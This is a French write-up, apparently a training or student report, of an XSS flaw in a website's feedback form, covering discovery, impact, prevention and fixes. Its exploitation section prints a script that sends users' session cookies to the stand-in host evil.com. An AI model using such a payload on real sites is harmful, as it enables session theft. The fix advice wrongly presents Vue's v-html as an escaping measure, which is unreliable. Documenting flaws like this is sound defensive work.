

# Injection XSS sur le formulaire de feedback

## 1. Introduction

J'ai découvert une vulnérabilité de type Cross-Site Scripting (XSS) dans le formulaire de feedback du site. Cette faille permet à un attaquant d'injecter du code malveillant dans le champ "Message", ce qui pourrait être utilisé pour exécuter du JavaScript non autorisé dans le navigateur des utilisateurs visitant la page.

## 2. Comment j'ai trouvé la faille

Sur la page de feedback, j'ai saisi le texte suivant dans le champ "Message" :
```bash
alert
```

Après avoir soumis le formulaire, l'alerte s'est exécutée, ce qui prouve que l'entrée utilisateur n'est pas correctement filtrée ou échappée côté serveur et côté client.



## 3. Impact de la faille

Cette vulnérabilité peut avoir plusieurs conséquences graves :

Vol de cookies : Un attaquant peut voler les cookies de session des utilisateurs.

Redirection malveillante : Les utilisateurs peuvent être redirigés vers des sites malveillants.

Défiguration du site : Le contenu de la page peut être modifié pour afficher des informations fausses ou offensantes.

Vol d'identifiants : Avec un script de phishing, un attaquant peut voler des identifiants de connexion.

## 4. Exploitation de la faille

Pour exploiter cette faille, un attaquant pourrait injecter un script malveillant comme :
```bash
<script>document.location='https://evil.com?cookie='+document.cookie;</script>
```

Cela redirigerait l'utilisateur vers un site malveillant en envoyant ses cookies de session à l'attaquant.

## 5. Comment prévenir cette faille

Pour empêcher cette injection XSS, il faut :

- **Échapper toutes les entrées utilisateur** : Utiliser des fonctions comme htmlspecialchars() en PHP ou v-html en Vue.js avec précaution.

- **Valider les entrées utilisateur** : Ne pas autoriser les balises HTML dans les champs de texte.

- Configurer des en-têtes de sécurité : Ajouter un Content Security Policy (CSP) pour limiter l'exécution de scripts non approuvés.

### Exemple de Content Security Policy
```bash
Content-Security-Policy: default-src 'self'; script-src 'self';
```

## 6. Comment corriger la faille

Pour corriger cette faille :

- **Échapper les sorties utilisateur** : En PHP, utiliser htmlspecialchars() pour afficher les données en toute sécurité.

- **Nettoyer les entrées utilisateur** : Filtrer les balises HTML avec des bibliothèques comme DOMPurify en JavaScript.

- **Mettre à jour les librairies et frameworks** pour bénéficier des derniers patchs de sécurité.

## 7. Conclusion

J'ai identifié une faille XSS dans le champ "Message" du formulaire de feedback. Cette vulnérabilité permet l'exécution de scripts malveillants dans le navigateur de l'utilisateur. Pour corriger cette faille, j'ai proposé des méthodes de validation et d'échappement des entrées, ainsi que l'ajout d'une politique de sécurité des contenus (CSP).